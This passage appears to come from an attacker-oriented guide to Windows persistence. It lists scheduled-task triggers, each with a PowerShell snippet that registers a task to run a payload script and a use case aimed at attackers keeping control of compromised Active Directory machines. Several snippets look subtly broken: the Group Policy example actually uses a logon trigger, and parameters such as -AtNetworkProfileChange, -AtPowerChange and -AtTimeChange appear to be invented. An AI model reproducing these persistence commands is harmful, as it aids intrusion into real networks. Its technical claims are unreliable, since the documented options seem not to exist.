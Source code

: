 #### Trigger on Group Policy Refresh
   - Description: This trigger executes when Group Policy is refreshed, which happens periodically in Active Directory (AD) environments or when certain system changes are made.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\gpo_payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtLogon -User "DOMAIN\Administrator"
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "GPORunTask" -Description "Trigger on Group Policy Refresh"
     ```
   - Use Case: This is useful for attackers who have compromised an AD environment and want to re-establish persistence each time a group policy is applied to the machine.

#### Trigger on Connected Network Profile Change
   - Description: This trigger is activated when the system switches between different network profiles (e.g., from a domain network to a public network). Attackers can take advantage of these transitions to trigger payloads only when the system connects to specific types of networks.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\network_profile_payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtNetworkProfileChange
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "NetworkProfileTask" -Description "Trigger on Network Profile Change"
     ```
   - Use Case: This can be useful when an attacker wants persistence only under certain network conditions (e.g., the machine is connected to a corporate network or public Wi-Fi).

#### Trigger on AC Power Resumption
   - Description: This trigger is designed to activate when the computer resumes AC power after a power outage or when the device switches back to using plugged-in power after battery power. 
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\path\to\resume_task.bat"
     $trigger = New-ScheduledTaskTrigger -AtPowerChange
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "PowerResumptionTask" -Description "Run Task on Power Resumption"
     ```
   - Use Case: This persistence method can be useful for ensuring tasks are re-triggered after system power interruptions, ensuring an attacker can maintain control even after unexpected outages.

#### Trigger on Time Synchronization
   - Description: This trigger activates when the system time is synchronized with a time server or corrected by an NTP (Network Time Protocol) service.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\timesync_payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtTimeChange
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "TimeSyncTask" -Description "Task Triggered on Time Sync"
     ```
   - Use Case: This method is valuable for environments where frequent time changes occur (e.g., traveling users or VM environments where time syncs are common), allowing for periodic persistence to be activated as time sync events happen.
